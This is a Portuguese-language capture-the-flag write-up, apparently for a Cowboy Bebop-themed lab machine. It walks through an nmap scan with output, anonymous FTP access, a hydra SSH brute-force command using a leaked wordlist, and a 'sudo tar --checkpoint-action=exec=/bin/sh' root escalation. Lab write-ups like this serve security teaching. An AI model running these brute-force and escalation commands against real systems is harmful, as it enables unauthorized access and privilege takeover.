


Usando nmap como fase inicial, estou preferindo usar a seguinte consulta por ser otimizada. 

nmap -sV -sS -T4 -A 10.10.214.22 

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.6.3.110
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

Visto que o serviço ftp permite login anonimo, será a primeira coisa a investigar...

No servidor FTP encontramos dois arquivos de texto *task.txt* e *locks.txt* como os seus próprios nomes sugerem um contém uma lista de tarefas mas o que chama a atenção é quem assina *lin* o que sugere um nome de usuário, o outro arquivo por sua fez é uma wordlist com possiveis trancas.



Uma boa prática aqui é dentro do servidor FTP usar comando *get* para transferir esses arquivos para sua máquina local.

Partindo para o servidor web em busca de informações adicionais, me deparo com a seguinte página.


Parece ser um dialogo entre a crew de uma animação chamada cowboy bepop, o que chama atenção é a fala de Jet ao dizer *"- Now take a look around and see if you can get that root the system"*. Isso indica uma pista para elevar privilegios ?? 

Prossigo fazendo uma inspeção no código fonte e fazendo uma varredura de diretórios e não encontro nada de muito excitante.

Uma vez que temos um possível usuário e uma lista com possíveis senhas vamos aplicar força bruta no último serviço disponível portanto dalhe

```
hydra -l lin -P locks.txt ssh://10.10.214.22 
```

e bingo, conseguimos a senha de *lin*, hora de se conectar remotamente. Uma vez conectado já conseguimos obter a flag de user.

como usuário de *lin* busco por meios de escalar privilégios por meio de caminhos como /etc/passwd comandos como id porém sem muitas resoluções, eis que lembro da fala de Jet então vamos conferir o que *lin* consegue executar como sudo usando *sudo -l*.



Parece que conseguimos executar tar como sudo pelo usuário de *lin*, pesquisando sobre o binário com auxilio do https://gtfobins.github.io/ 

```
If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.
```

```
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

Uma vez logado como root, é só capturar a flag de root.